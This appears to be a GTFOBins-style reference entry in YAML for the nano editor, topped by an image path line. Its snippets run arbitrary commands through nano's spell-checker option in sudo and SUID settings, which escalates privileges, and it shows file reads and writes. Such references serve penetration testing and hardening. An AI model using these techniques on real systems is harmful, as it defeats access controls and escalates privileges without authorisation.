 ```yaml
---
functions:
  execute-non-interactive:
    - description: After running this exit the editor to see the command output.
      code: |
        COMMAND=id
        TF=$(mktemp)
        echo "$COMMAND" > $TF
        chmod +x $TF
        nano -s $TF /etc/hosts
        ^T
  sudo-enabled:
    - description: After running this exit the editor to see the command output.
      code: |
        COMMAND=id
        TF=$(mktemp)
        echo "$COMMAND" > $TF
        chmod +x $TF
        sudo nano -s $TF /etc/hosts
        ^T
  suid-enabled:
    - description: After running this exit the editor to see the command output.
      code: |-
        COMMAND=id
        TF=$(mktemp)
        echo $'#!/bin/sh -p\n'"$COMMAND" > $TF
        chmod +x $TF
        ./nano -s $TF /etc/hosts
        ^T
  file-read:
    - code: |
        nano file_to_read
  file-write:
    - code: |
        nano file_to_write
        ^O
---
```

